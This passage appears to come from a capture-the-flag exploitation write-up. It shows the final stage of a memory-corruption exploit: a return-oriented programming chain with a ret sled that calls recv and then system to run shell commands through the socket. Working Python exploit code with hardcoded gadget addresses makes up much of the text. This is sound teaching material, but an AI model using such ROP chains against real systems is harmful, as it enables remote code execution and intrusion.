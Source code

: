 
And now we are in a prime position to ROP. Time for the home stretch!

# Stop, ROP, and Profit

Back at the beginning of the binary, we see a `system` call after a `getenv` call. This seems like an obvious use of giving `system` to us to use for our ROP chain. This should make our ROP chain pretty straight forward.

* Call `recv` into a writable region and send some command to run
* Send a command from our main thread that is written to the writable region
* Call `system` on the pointer to that region

The only hiccup here was not having our socket file descriptors already on stdin/stdout. We could attempt to `dup` those, but that would be too much work. We can simply add `>&4` to the end of our command to redirect the output to fd `4`, which should be our socket. 

We create the ROP chain, adding a bit of ROP NOP sled (aka `ret` instructions) to the beginning for good measure since we don't actually know where we will land in the heap and drop it at the end of each of our chunks in our first sent response.

```python
recv = p32(0x8048be5)
system = p32(0x80496de)
ret = p32(0x8049702)
adjust = p32(0x80487ee)

rop = []
for _ in xrange(50):
    rop.append(ret)

rop.append(recv)
rop.append(adjust) # Clean up the stack for the system call
rop.append(p32(4)) # Original thread fd
rop.append(p32(0x804c098)) # Global address to read into
rop.append(p32(len(command))) # len('/bin/sh ls 1>&4<0\0')
rop.append(system)
rop.append(p32(0x804c098))
rop.append(p32(0x80808080)) # End the copy

rop = ''.join(rop)

if size1 == 0xffff:
    buff = ['\x11\x22'] # Need a slight adjustment as EIP is 2 bytes off
    # for _ in xrange((size1+size2+8)/0x200):
    for _ in xrange((size1+size2)/0x200):
        buff += '\xff' * (0x200 - len(rop))
        buff += rop

    for i in xrange(len(buff) % 4):
        buff += '\x80'

    buff = ''.join(buff)
    c.send(buff)
```

If everything does as planned...

<script type="text/javascript" src="https://asciinema.org/a/4qk84m7hyraaykhayrxjoe51j.js" id="asciicast-4qk84m7hyraaykhayrxjoe51j" async></script>

We do get command execution!
